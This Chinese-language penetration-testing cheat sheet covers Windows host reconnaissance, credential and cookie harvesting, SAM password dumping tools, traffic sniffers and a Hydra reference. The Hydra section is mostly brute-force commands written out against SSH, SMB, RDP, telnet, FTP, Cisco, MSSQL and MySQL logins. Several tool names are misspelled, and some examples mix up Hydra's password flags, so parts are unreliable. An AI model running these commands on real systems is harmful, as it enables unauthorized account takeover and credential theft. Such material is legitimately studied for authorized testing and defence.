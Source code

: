 # 信息收集

## 常用工具

namp
zenmap
scanport
ntscan
arp -a
net view

## 主机内部收集：

ip：
ipconfig /all

进程收集
tasklist

服务
service.msc

端口
netstat -an

软件安装
查看默认安装目录

文件目录
查看系统的一些文件 或者目录

cookie
查看浏览器的cookie缓存

文件共享缓存信息
ftp://

远程桌面登录缓存
mstsc

ftp登录缓存

软件下载目录

管理员信息

用户信息

sam密码信息
  账号 信息
pwdum7
getpass.exe

开机启动信息

防护信息
tasklist
默认安装目录

查看删除的资料

日志信息

用户登录信息
query user

## 网络收集

ARP -a

net view

portscan
nmap

# 流量监听

## 常用工具

wiresharke
cain
shifferpass

# 密码破解

## hydra

参数详解：
-R 根据上一次进度继续破解
-S 使用SSL协议连接
-s 指定端口
-l 指定用户名
-L 指定用户名字典(文件)
-p 指定密码破解
-P 指定密码字典(文件)
-e 空密码探测和指定用户密码探测(ns)
-C 用户名可以用：分割(username:password)可以代替-l username -p password
-o 输出文件
-t 指定多线程数量，默认为16个线程
-vV 显示详细过程
server 目标IP
service 指定服务名(telnet ftp pop3 mssql mysql ssh ssh2...)

使用hydra破解ssh的密码
hydra -L users.txt -P password.txt -vV -o ssh.log -e ns IP ssh

破解smb
hydra -l administrator -P pass.txt IP smb

破解rdp
hydra IP rdp -l administrator -P pass.txt -V

破解telnet
hydra IP telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V

破解ftp
hydra IP ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
hydra IP ftp -l 用户名 -P 密码字典 -e ns -vV

破解cisco
hydra -P pass.txt IP cisco
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

破解sqlserver密码
hydra.exe -l sa -p c:\pass.txt 192.168.2.3 mssql

破解Mysql密码
hydra.exe -l root -p c:\pass.txt 192.168.2.3 mysql